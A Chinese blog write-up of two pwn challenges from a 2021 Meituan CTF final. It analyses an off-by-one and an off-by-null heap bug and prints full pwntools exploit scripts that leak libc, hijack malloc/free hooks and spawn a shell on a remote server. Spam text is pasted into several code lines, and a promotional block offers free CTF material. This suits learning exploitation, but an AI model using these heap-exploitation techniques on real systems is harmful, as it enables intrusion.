










<!--yml
category: 未分类
date: 2022-04-26 14:49:21
-->

# 砰砰砰！2021美团CTF决赛PWN题详解_代码熬夜敲的博客-CSDN博客

> 来源：[https://blog.csdn.net/MachineGunJoe/article/details/118345751](https://blog.csdn.net/MachineGunJoe/article/details/118345751)



**程序分析**

Add()

Delete
很正常的delete

**思路**

offset by one, 简单的漏洞, 还可以泄露地址
确定下libc版本
利用offset by one 溢出一个修改一个chunksize为0x90, 然后释放他,
如果是2.23的那么就会触发向前合并, 引发错误, 如果是2.27就会直接进入tcache, 不会报错

根据libc地址确定是libc2.23-UB1.3

**泄露地址**

格式化字符串泄露地址

**任意写**

UB隔块合并打fastbin, 利用0x7F伪造size, 然后realloc调栈, OGG

**EXP**

```
#! /usr/bin/python
# coding=utf-8
import sys
from pwn import *
from random import randint

context.log_level = 'debug'
context(arch='amd64', os='linux')

elf = ELF('./pwn')
libc=ELF('./libc.so.6')

def Log(name):    
    log.success(name+' = '+hex(eval(name)))

if(len(sys.argv)==1):            #local
    sh = process('./pwn')
    print(sh.pid)
    raw_input() +QQ君样：581499282一起吹水聊天
    #proc_base = sh.libs()['/home/parallels/pwn']
else:                            #remtoe
    sh = remote('114.215.144.240', 11342)

def Num(n):
    sh.sendline(str(n))

def Cmd(n):
    sh.recvuntil('Your choice :')
    sh.send(str(n).ljust(4, '\x00'))

def Add(idx, size, cont):
    Cmd(1)
    sh.recvuntil('Where?')
    sh.send(str(idx).ljust(0x30, '\x00'))
    sh.recvuntil('Big or small??')
    sh.send(str(size).ljust(0x8, '\x00'))
    sh.recvuntil('Content:')
    sh.send(cont)

def Free(idx):
    Cmd(2)
    sh.recvuntil('Index:')
    sh.send(str(idx).ljust(6, '\x00'))

Add(0, 0x20, '%15$p')
sh.recvuntil('Your input:')
libc.address = int(sh.recv(14), 16)-0x20840
Log('libc.address')

Add(0, 0x90, 'A'*0x90)
Add(1, 0x60, 'B'*0x60)
Add(2, 0x28, 'C'*0x28)
Add(3, 0xf0, 'D'*0xF0)
Add(4, 0x38, '/bin/sh\x00')

Free(0)        #UB<=>A
Free(2)        #Fastbin->C
Add(2, 0x28, 'C'*0x20+flat(0x140)+'\x00')
Free(3)        #UB<=>(A, B, C, D)

#Fastbin Attack
Free(1)
exp = 'A'*0x90
exp+= flat(0, 0x71)
exp+= flat(libc.symbols['__malloc_hook']-0x23)
Add(6, len(exp), exp)        #Fastbin->B->Hook

Add(7, 0x60, 'B'*0x60)
exp = '\x00'*(0x13-0x8)
exp+= p64(libc.address+0x4527a)
exp+= p64(libc.symbols['realloc'])
Add(8, 0x60, exp)

Cmd(1)
sh.recvuntil('Where?')
sh.send(str(9).ljust(0x30, '\x00'))
sh.recvuntil('Big or small??')
sh.send(str(0x70).ljust(0x8, '\x00'))

sh.interactive()+QQ君样：581499282一起吹水聊天

'''
ptrarray:        telescope 0x2020A0+0x0000555555554000 16
printf:            break *(0xE7C+0x0000555555554000)

0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

''' 
```

**总结**

> 要注意多种漏洞的组合, 一开始就没注意到格式化字符串漏洞, 绕了些远路
> 2.23下free时的合并操作, 没有检查prev_size与前一个chunk的size, 因此可以通过本来就在Bin中的chunk绕过UB 0x7F伪造size, 打malloc_hook, 最后通过realloc_hook调整栈帧满足OGG条件, 常规思路



**逆向**

sub_9BA()这个函数有问题,无法F5

万恶之源是sub rsp时分配的栈空间太大了, 实际根本没用这么多

尝试直接patche程序

```
[addr]
>>> HEX(asm('mov [rbp-0x3d2c88], rdi'))
0x48 0x89 0xbd 0x78 0xd3 0xc2 0xff 
>>> HEX(asm('mov [rbp-0x000c88], rdi'))
0x48 0x89 0xbd 0x78 0xf3 0xff 0xff

lea指令
>>> HEX(asm('lea rax, [rbp-0x3D2850]'))
0x48 0x8d 0x85 0xb0 0xd7 0xc2 0xff 
>>> HEX(asm('lea rax, [rbp-0x000850]'))
0x48 0x8d 0x85 0xb0 0xf7 0xff 0xff 

sub指令
>>> HEX(asm('sub rsp, 0x3d2c90'))
0x48 0x81 0xec 0x90 0x2c 0x3d 0x0 
>>> HEX(asm('sub rsp, 0xc90'))
0x48 0x81 0xec 0x90 0xc 0x0 0x0 

memset的n参数
>>> HEX(asm('mov edx, 0x3d2844'))
0xba 0x44 0x28 0x3d 0x0 
>>> HEX(asm('mov edx, 0x000844'))
0xba 0x44 0x8 0x0 0x0 

>>> HEX(asm('sub rax, 0x3d2850'))
0x48 0x2d 0x50 0x28 0x3d 0x0 
>>> HEX(asm('sub rax, 0x000850'))
0x48 0x2d 0x50 0x8 0x0 0x0 ```
0xd3 0xc2 => 0xF3 0xFF

from ida_bytes import get_bytes, patch_bytes
import re
addr = 0x9C5
end = 0xD25

buf = get_bytes(addr, end-addr)
'''
pattern = r"\xd3\xc2"
patch = '\xF3\xff'
buf = re.sub(pattern, patch, buf)
'''
pattern = r"\xd7\xc2"
patch = '\xF7\xff'
buf = re.sub(pattern, patch, buf)

patch_bytes(addr, buf)
print("Done") 
```


不成功, 直接改gihra逆向

```
char * FUN_001009ba(char *param_1,int param_2)

{
  uint uVar1;
  long lVar2;
  long in_FS_OFFSET;
  char *pcVar3;
  int iVar4;
  int iVar5;
  int iVar6;
  int iVar7;

  lVar2 = *(long *)(in_FS_OFFSET + 0x28);
  if (1 < param_2) {
    memset(&stack0xffffffffffc2d3a8,0,0x400);
    iVar4 = 0;
    while (iVar4 < param_2) {
      uVar1 = (int)param_1[iVar4] & 0xff;
      *(int *)(&stack0xffffffffffc2d3a8 + (ulong)uVar1 * 4) =
           *(int *)(&stack0xffffffffffc2d3a8 + (ulong)uVar1 * 4) + 1;
      if (0xe < *(int *)(&stack0xffffffffffc2d3a8 + (ulong)uVar1 * 4)) {
        param_1 = s_ERROR_00302010;
        goto LAB_00100d10;
      }
      iVar4 = iVar4 + 1;
    }
    memset(&stack0xffffffffffc2d7a8,0,0x3d2844);
    iVar4 = 1;
    while (iVar4 < param_2) {
      *(undefined4 *)(&stack0xffffffffffc2d7a8 + (long)iVar4 * 0xfa8) = 1;
      *(undefined4 *)(&stack0xffffffffffc2d7a8 + ((long)(iVar4 + -1) + (long)iVar4 * 0x3e9) * 4) = 1
      ;
      iVar4 = iVar4 + 1;
    }
    iVar5 = 0;
    iVar6 = 0;
    iVar4 = 2;
    while (iVar4 <= param_2) {
      iVar7 = 0;
      while (iVar7 < (param_2 - iVar4) + 1) {
        if (((param_1[iVar7] == param_1[iVar7 + iVar4 + -1]) &&
            (*(int *)(&stack0xffffffffffc2d7a8 +
                     ((long)(iVar7 + iVar4 + -2) + (long)(iVar7 + 1) * 0x3e9) * 4) != 0)) &&
           (*(undefined4 *)
             (&stack0xffffffffffc2d7a8 + ((long)(iVar7 + iVar4 + -1) + (long)iVar7 * 0x3e9) * 4) = 1
           , iVar6 < iVar4 + -1)) {
          iVar6 = iVar4 + -1;
          iVar5 = iVar7;
        }
        iVar7 = iVar7 + 1;
      }
      iVar4 = iVar4 + 1;
    }
    pcVar3 = param_1;
    param_1 = (char *)malloc((long)param_2);
    iVar4 = 0;
    while (iVar4 <= iVar6) {
      param_1[iVar4] = pcVar3[iVar5];
      iVar4 = iVar4 + 1;
      iVar5 = iVar5 + 1;
    }
    param_1[iVar4] = '\0';
  }
LAB_00100d10:
  if (lVar2 == *(long *)(in_FS_OFFSET + 0x28)) {
    return param_1;+QQ君样：581499282一起吹水聊天
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
} 
```

美化一下

```
char *PalyFunc(char *input, int len)

{
    uint ch;
    long canary;
    long in_FS_OFFSET;
    char *_input;
    int i;
    int start;
    int end;
    int iVar7;

    canary = *(long *)(in_FS_OFFSET + 0x28);
    if (1 < len)
    {
        //统计字符
        int char_cnt[0x100];
        memset(char_cnt, 0, 0x400);
        int i = 0;
        while (i < len)
        {
            ch = (int)input[i];
            char_cnt[ch]++;
            if (0xe < char_cnt[ch]) //字符最大不超过14个
            {
                input = "ERROR";
                goto ret;
            }
            i++;
        }

        int buf2[1000][0x3ea];
        memset(&buf2, 0, 0x3d2844);
        int j = 1;
        while (j < len)
        {
            buf2[j][0] = 1;
            buf2[j][-1] = 1;
            j++;
        }

        start = 0;
        end = 0;
        int k = 2;
        while (k <= len)
        {
            int m = 0;
            while (m < (len - k) + 1)
            {
                if ((input[m] == input[m + k + -1]) &&
                    (buf2[m + 1][k - 2 - 1] != 0) &&
                    (buf2[m][k - 1] = 1, end < k - 1))
                {
                    end = k - 1; //max(end) = max(k) -1 = len -1
                    start = m;
                }
                m = m + 1;
            }
            k++;
        }

        _input = input;
        input = (char *)malloc((long)len);
        i = 0;
        while (i <= end)
        {
            input[i] = _input[start];
            i++;
            start = start + 1;
        }
        input[i] = '\0'; //i=end+1
    }

ret:
    if (canary == *(long *)(in_FS_OFFSET + 0x28))
    {
        return input;
    }
    __stack_chk_fail();
} 
```

49行的循环感觉很奇怪, py模拟找下规律

```
Len = 0x18+QQ君样：581499282一起吹水聊天
k = 2
while(k<=Len):

    m=0
    print("k=%d"%(k))
    while(m<(Len-k)+1):
        print("\tinput[%d]==input[%d]"%(m, m+k-1))
        m+=1
    print(' ')
    k+=1 
```


[发现是个重复字符串相关的](https://shimo.im/docs/TdpXTY6H9J8jygd8)

**漏洞**

```
最后 input[i] = ‘\0’;时有一个offset by null
循环结束时, i=end+1
end=k-1, 因此max(end) = max(k)-1
k最大 = len
综上, i最大为len, 溢出 
```

接下来就是漫漫构造路, 因为算法直接逆不出来, 就只能凭感觉去fuzz, 最终测试出来发现回文串时, 可以让k=len

**思路**

所以此时题目就和Play无关了, Play只是提供了一个offset by null而已

题目就变成了2.27下的offset by null

常规手法: 踩掉P标志, 构造隔块合并, 然后接触Tcache

Play去踩P标志时没法伪造size, 解决方法:

踩完之后free掉, 再通过Add申请写入数据, 就可以在保留P=0的前提下, 伪造prev_size了

**EXP**

```
#! /usr/bin/python
# coding=utf-8
import sys
from pwn import *
from random import randint

context.log_level = 'debug'
context(arch='amd64', os='linux')

elf = ELF('./pwn')
libc=ELF('./libc.so.6')

def Log(name):    
    log.success(name+' = '+hex(eval(name)))

if(len(sys.argv)==1):            #local
    sh = process('./pwn')
    #proc_base = sh.libs()['/home/parallels/pwn']
else:                            #remtoe
    sh = remote('114.215.144.240', 41699)

def Num(n):
    sh.sendline(str(n))

def Cmd(n):
    sh.recvuntil('>>> ')
    Num(n)

def Add(size, cont):
    Cmd(1)
    sh.recvuntil('Input len:\n')
    Num(size)
    sh.recvuntil('Input content:\n')
    sh.send(cont)

def Delete(idx):
    Cmd(2)
    sh.recvuntil('Input idx:\n')
    Num(idx)

def Play(idx):
    Cmd(3)
    sh.recvuntil('Input idx:\n')
    Num(idx)

#chunk arrange
for i in range(9):
    Add(0xF0, str(i)*0xF0)
Add(0x20, 'A'*0x20)
Add(0x18, 'ABCCBA'*0x4)
Add(0x18, 'C'*0x18)
Add(0xF0, 'D'*0xF0)+QQ君样：581499282一起吹水聊天
Add(0x20, 'gap')

#leak libc addr
for i in range(9):
    Delete(i)        #UB<=>(C7, C8)
for i in range(7):
    Add(0xF0, 'A'*0xF0)
Add(0xF0, 'A'*8)    #get chunk C7
Play(7)

sh.recvuntil('Chal:\n')
sh.recvuntil('A'*8)
libc.address = u64(sh.recv(6).ljust(8, '\x00'))-0x3ebe90
Log('libc.address')

#offset by null
for i in range(8):        #UB<=>(C7, C8)
    Delete(i)
Delete(11)
Play(10)

#forge fake size
Delete(10)
Add(0x18, flat(0, 0, 0x270))
Delete(12)                #UB<=>(C7, C8, ..., A, B, C, D)

#tcache attack
Delete(9)
exp = '\x00'*0x1F0
exp+= flat(0, 0x31)
exp+= p64(libc.symbols['__free_hook']-0x8)    #ChunkA's fd
Add(len(exp), exp)        #Tcache[0x30]->Chunk A->hook

Add(0x20, '\x00'*0x20)
exp = '/bin/sh\x00'
exp+= p64(libc.symbols['system'])
Add(0x20, exp)

#getshell
Delete(3)

#gdb.attach(sh, '''
#telescope (0x202100+0x0000555555554000) 16
#heap bins
#''')

sh.interactive()

'''
ResArr:            telescope (0x202040+0x0000555555554000)
PtrArr:            telescope (0x202100+0x0000555555554000)
flag{w0rd_Pl4y_13_vu1ner4bl3}
''' 
```

​​​
看到这里的大佬，动动发财的小手 点赞 + 回复 + 收藏，能【 关注 】一波就更好了

我是一名渗透测试工程师，为了感谢读者们，我想把我收藏的一些CTF夺旗赛干货贡献给大家，回馈每一个读者，希望能帮到你们。

干货主要有：

①1000+CTF历届题库（主流和经典的应该都有了）

②CTF技术文档（最全中文版）

③项目源码（四五十个有趣且经典的练手项目及源码）

④ CTF大赛、web安全、渗透测试方面的视频（适合小白学习）

⑤ 网络安全学习路线图（告别不入流的学习）

⑥ CTF/渗透测试工具镜像文件大全

⑦ 2021密码学/隐身术/PWN技术手册大全

各位朋友们可以关注+评论一波 然后点击下方 即可免费获取全部资料

​
**总结**

本题最[核心](https://shimo.im/docs/TdpXTY6H9J8jygd8)的地方在与逆向的过程, 更偏向真实环境, 我们不可能也不需要弄明白每一条指令, 弄清楚什么操作会导致什么效果即可, 这个操作的粒度可以大一些

在本题中PlayFunc()函数在找漏洞时,只需要关注与pwn相关的, 算法相关可以放一放

只用关注malloc后面的写入操作是如何定界的
关注怎么循环才可以得到我想要的值

最后就是凭感觉[*fuzz*](https://shimo.im/docs/TdpXTY6H9J8jygd8)了, 构造特殊样例
